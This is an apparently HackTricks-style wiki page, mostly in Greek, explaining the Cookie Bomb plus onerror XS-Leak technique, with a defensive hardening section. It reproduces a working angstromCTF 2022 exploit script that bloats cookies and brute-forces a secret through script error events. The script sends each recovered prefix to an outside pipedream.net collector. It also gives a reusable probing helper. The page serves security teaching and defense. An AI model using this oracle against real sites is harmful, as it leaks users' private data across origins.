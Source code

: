 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

Αυτή η τεχνική συνδυάζει:
- Cookie bombing: γεμίζοντας τον browser του θύματος με πολλά/μεγάλα cookies για το target origin έτσι ώστε οι επόμενες αιτήσεις να χτυπήσουν όρια του server/του request (π.χ. request header size, URL size σε redirects, κ.λπ.).
- Error-event oracle: εξετάζοντας ένα cross-origin endpoint με ένα <script> (ή άλλο subresource) και διακρίνοντας καταστάσεις χρησιμοποιώντας onload vs onerror.

Κύρια ιδέα
- Βρείτε ένα target endpoint του οποίου η συμπεριφορά διαφέρει για δύο καταστάσεις που θέλετε να δοκιμάσετε (π.χ., αναζήτηση “hit” vs “miss”).
- Βεβαιωθείτε ότι το μονοπάτι “hit” θα προκαλέσει μια βαριά αλυσίδα redirects ή μακρύ URL ενώ το μονοπάτι “miss” παραμένει σύντομο. Φουσκώστε τα request headers χρησιμοποιώντας πολλά cookies ώστε μόνο το μονοπάτι “hit” να προκαλεί αποτυχία του server με HTTP error (π.χ., 431/414/400). Το σφάλμα αντιστρέφει το onerror event και γίνεται oracle για XS-Search.

Πότε λειτουργεί αυτό
- Μπορείτε να προκαλέσετε τον browser του θύματος να στείλει cookies στον στόχο (π.χ., τα cookies έχουν SameSite=None ή μπορείτε να τα ορίσετε σε πρώτο-πλευρικό context μέσω ενός popup window.open).
- Υπάρχει λειτουργία της εφαρμογής που μπορείτε να εκμεταλλευτείτε για να ορίσετε αυθαίρετα cookies (π.χ., endpoints “save preference” που μετατρέπουν ελεγχόμενα ονόματα/τιμές input σε Set-Cookie) ή για να κάνετε post-auth redirects που ενσωματώνουν δεδομένα ελεγχόμενα από τον επιτιθέμενο στο URL.
- Ο server αντιδρά διαφορετικά στις δύο καταστάσεις και, με φουσκωμένα headers/URL, η μία κατάσταση ξεπερνά κάποιο όριο και επιστρέφει ένα error response που προκαλεί onerror.

Σημείωση σχετικά με τα server errors που χρησιμοποιούνται ως oracle
- 431 Request Header Fields Too Large is commonly returned when cookies inflate request headers; 414 URI Too Long or a server-specific 400 may be returned for long request targets. Any of these result in a failed subresource load and fire onerror. [MDN documents 431 and typical causes like excessive cookies.]()

Πρακτικό παράδειγμα (angstromCTF 2022)
Το παρακάτω script (από ένα δημόσιο writeup) εκμεταλλεύεται μια λειτουργία που επιτρέπει στον επιτιθέμενο να εισάγει αυθαίρετα cookies, και στη συνέχεια φορτώνει ένα cross-origin search endpoint ως script. Όταν το query είναι σωστό, ο server εκτελεί ένα redirect που, μαζί με το cookie bloat, ξεπερνά τα όρια του server και επιστρέφει status error, οπότε το script.onerror ενεργοποιείται· διαφορετικά δεν συμβαίνει τίποτα.
```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
<input id="f" /><input name="search" value="a" />
</form>
<script>
const $ = document.querySelector.bind(document)
const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
let i = 0
const stuff = async (len = 3500) => {
let name = Math.random()
$("form").target = name
let w = window.open("", name)
$("#f").value = "_".repeat(len)
$("#f").name = i++
$("form").submit()
await sleep(100)
}
const isError = async (url) => {
return new Promise((r) => {
let script = document.createElement("script")
script.src = url
script.onload = () => r(false)
script.onerror = () => r(true)
document.head.appendChild(script)
})
}
const search = (query) => {
return isError(
"https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
)
}
const alphabet =
"etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
const url = "//en4u1nbmyeahu.x.pipedream.net/"
let known = "actf{"
window.onload = async () => {
navigator.sendBeacon(url + "?load")
await Promise.all([stuff(), stuff(), stuff(), stuff()])
await stuff(1600)
navigator.sendBeacon(url + "?go")
while (true) {
for (let c of alphabet) {
let query = known + c
if (await search(query)) {
navigator.sendBeacon(url, query)
known += c
break
}
}
}
}
</script>
```
Γιατί το popup (window.open)?
- Οι σύγχρονοι browsers μπλοκάρουν ολοένα και περισσότερο τα third-party cookies. Το άνοιγμα ενός top-level window προς τον στόχο κάνει τα cookies first‑party, οπότε οι Set-Cookie απαντήσεις από τον στόχο θα διατηρηθούν, επιτρέποντας το cookie-bomb βήμα ακόμα και με περιορισμούς στα third‑party cookies.

Generic probing helper
Αν ήδη έχετε τρόπο να ορίζετε πολλά cookies στο target origin (first-party), μπορείτε να επαναχρησιμοποιήσετε αυτό το ελάχιστο oracle εναντίον οποιουδήποτε endpoint του οποίου η επιτυχία/αποτυχία οδηγεί σε διαφορετικά αποτελέσματα δικτύου (status/MIME/redirect):
```js
function probeError(url) {
return new Promise((resolve) => {
const s = document.createElement('script');
s.src = url;
s.onload = () => resolve(false);  // loaded successfully
s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
document.head.appendChild(s);
});
}
```
Συμβουλές για την κατασκευή του oracle
- Κάντε την “θετική” κατάσταση πιο «βαριά»: αλυσιδώστε ένα επιπλέον redirect μόνο όταν η προϋπόθεση (predicate) είναι true, ή κάντε το redirect URL να αντικατοπτρίζει ανεξέλεγκτη είσοδο χρήστη ώστε να μεγαλώνει με το υποτεθέν πρόθεμα.
- Φουσκώστε τις κεφαλίδες: επαναλάβετε το cookie-bomb μέχρι να παρατηρηθεί ένα συνεπές σφάλμα στη «βαριά» διαδρομή. Οι servers συνήθως ορίζουν όριο στο μέγεθος των header και θα αποτύχουν νωρίτερα όταν υπάρχουν πολλές cookies.
- Σταθεροποιήστε: εκτελέστε πολλαπλές παράλληλες ενέργειες Set-Cookie και ανιχνεύστε επανειλημμένα για να εξομαλύνετε το θόρυβο χρονισμού και caching.

Related XS-Search tricks
- URL length based oracles (no cookies needed) μπορούν να συνδυαστούν ή να χρησιμοποιηθούν ως εναλλακτική όταν μπορείτε να επιβάλετε πολύ μεγάλο request target:

{{#ref}}
url-max-length-client-side.md
{{#endref}}

Αμυντικά μέτρα και σκληροποίηση
- Κάντε τις απαντήσεις επιτυχίας/αποτυχίας αδιακρίτως όμοιες:
- Αποφύγετε conditional redirects ή μεγάλες διαφορές στο μέγεθος της απάντησης μεταξύ καταστάσεων. Επιστρέψτε το ίδιο status, ίδιο Content-Type και παρόμοιο body length ανεξάρτητα από την κατάσταση.
- Αποκλείστε cross-site subresource probes:
- SameSite cookies: ορίστε ευαίσθητα cookies σε SameSite=Lax ή Strict ώστε τα subresource requests όπως <script src> να μην τα μεταφέρουν· προτιμήστε Strict για auth tokens όπου είναι δυνατό.
- Fetch Metadata: επιβάλετε μια Resource Isolation Policy για να απορρίπτετε cross-site subresource loads (π.χ. αν Sec-Fetch-Site != same-origin/same-site).
- Cross-Origin-Resource-Policy (CORP): ορίστε CORP: same-origin (ή τουλάχιστον same-site) για endpoints που δεν προορίζονται να ενσωματωθούν ως cross-origin subresources.
- X-Content-Type-Options: nosniff και σωστό Content-Type σε JSON/HTML endpoints για να αποφύγετε εξαίρετες συμπεριφορές load-as-script.
- Μειώστε την ενίσχυση header/URL:
- Περιορίστε τον αριθμό/μέγεθος των cookies που ορίζονται· καθαρίστε λειτουργίες που μετατρέπουν αυθαίρετα πεδία φορμών σε Set-Cookie.
- Κανονικοποιήστε ή περικόψτε τα ανακλώμενα δεδομένα σε redirects· αποφύγετε την ενσωμάτωση μακρών, ελεγχόμενων από τον attacker, συμβολοσειρών σε Location URLs.
- Κρατήστε τα όρια του server συνεπή και αποτύχετε ομοιόμορφα (αποφύγετε ειδικές σελίδες σφάλματος μόνο για ένα branch).

Σημειώσεις
- Αυτή η κατηγορία επιθέσεων συζητείται γενικά ως “Error Events” XS-Leaks. Το βήμα του cookie-bomb είναι απλώς ένας βολικός τρόπος για να ωθήσετε μόνο ένα branch πέρα από τα όρια του server, παράγοντας ένα αξιόπιστο boolean oracle.



## Αναφορές
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (συνηθές με πολλές cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431
{{#include ../../banners/hacktricks-training.md}}
